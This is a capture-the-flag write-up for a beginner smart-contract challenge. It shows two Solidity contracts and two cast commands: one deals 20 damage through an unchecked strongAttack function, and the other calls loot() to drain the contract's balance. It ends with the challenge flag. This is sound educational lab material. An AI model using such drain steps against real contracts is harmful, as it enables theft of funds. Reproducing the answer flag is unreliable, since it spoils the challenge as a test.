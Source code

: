# Survival of the Fittest

### CHALLENGE DESCRIPTION
**_Alex had always dreamed of becoming a warrior, but she wasn't particularly skilled. When the opportunity arose to join a group of seasoned warriors on a quest to a mysterious island filled with real-life monsters, she hesitated. But the thought of facing down fearsome beasts and emerging victorious was too tempting to resist, and she reluctantly agreed to join the group. As they made their way through the dense, overgrown forests of the island, Alex kept her senses sharp, always alert for the slightest sign of danger. But as she crept through the underbrush, sword drawn and ready, she was startled by a sudden movement ahead of her. She froze, heart pounding in her chest as she realized that she was face to face with her first monster._**


## Solution

**STEP 1: Code reviewing**
 
We're given 2 Solidity files:
 
>**`Setup.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Creature} from "./Creature.sol";

contract Setup {
    Creature public immutable TARGET;

    constructor() payable {
        require(msg.value == 1 ether);
        TARGET = new Creature{value: 10}();
    }
    
    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}
```

>**`Creature.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Creature {
    
    uint256 public lifePoints;
    address public aggro;

    constructor() payable {
        lifePoints = 20;
    }

    function strongAttack(uint256 _damage) external{
        _dealDamage(_damage);
    }
    
    function punch() external {
        _dealDamage(1);
    }

    function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }

    function _dealDamage(uint256 _damage) internal {
        aggro = msg.sender;
        lifePoints -= _damage;
    }
}
```
To take the flag we should defeat our enemies with a lifePoints of 20. We have 2 options: `punch()` and `stringAttack(uint256 _damage)`. 

**STEP 2: Checking website**

Meeting our enemies ;)

![image](https://github.com/luvranse/web3/assets/46570641/2a64b0db-e3be-4682-a6ee-9a951051de1f)

Also you can check guide in `docs`.

![image](https://github.com/luvranse/web3/assets/46570641/1bbf0712-2ede-4a15-a45e-1533e63e4455)

Check the `connections` to find needed address `TargetAddress` and key `PrivateKey`.

![image](https://github.com/luvranse/web3/assets/46570641/999be50d-3c52-4199-a951-ca6916d8bc11)

**STEP 3: The Battle**

To interact with blockchain on /rpc endpoint we gonna use `cast`.

Let's fight:
```
cast send --rpc-url http://IP:PORT/rpc --private-key $PRIVATE_KEY $TARGET_ADDRESS "strongAttack(uint256)" 20
```
![image](https://github.com/luvranse/web3/assets/46570641/2f8c717f-f6d8-40aa-bfab-6b2726d41fb0)

After defeating the enemies, we can collect the loot.
```
cast send --rpc-url http://IP:PORT/rpc --private-key $PRIVATE_KEY $TARGET_ADDRESS "loot()"
```
![image](https://github.com/luvranse/web3/assets/46570641/7c18c04b-7c2a-4594-aa12-ef656168bf36)

Now we can get our flag. Congratz!
![image](https://github.com/luvranse/web3/assets/46570641/60e8686c-59c2-4234-a216-edbb2ff97027)

### FLAG
```
HTB{g0t_y0u2_f1r5t_b100d}
```
